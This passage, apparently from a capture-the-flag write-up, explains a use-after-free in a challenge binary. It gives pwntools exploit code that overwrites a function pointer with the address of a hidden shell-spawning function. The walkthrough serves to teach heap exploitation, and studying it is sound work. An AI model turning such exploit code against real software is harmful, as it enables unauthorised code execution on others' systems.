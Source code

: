 And here, in the program there is also an unused function called `human_sound`, this function will create a shell. So we will overwrite the address of the `human_sound` function to location 0x4052a8 so that when choosing `play_sound`, the program will execute the `human_sound` function and create a shell.

```
sln(b'> ', 1)
sln(b'Index: ', 1)
sln(b'> ', 1)
sln(b'size: ', 100)
sla(b'Name: ', b'A')

# Use-After-Free
sln(b'> ', 3)
sln(b'Index: ', 1)

sln(b'> ', 2)
sln(b'Index: ', 1)
sln(b'size: ', 16)
sa(b'Name: ', b'A'*8 + p64(exe.sym.human_sound)[:7])        # Here I only enter 15 bytes because the `fgets` function allows to enter up to 0x10 -1 byte = 15 bytes.

sln(b'> ', 4)
sln(b'Index: ', 1)
```

![alt text](images/image-13-6.png)
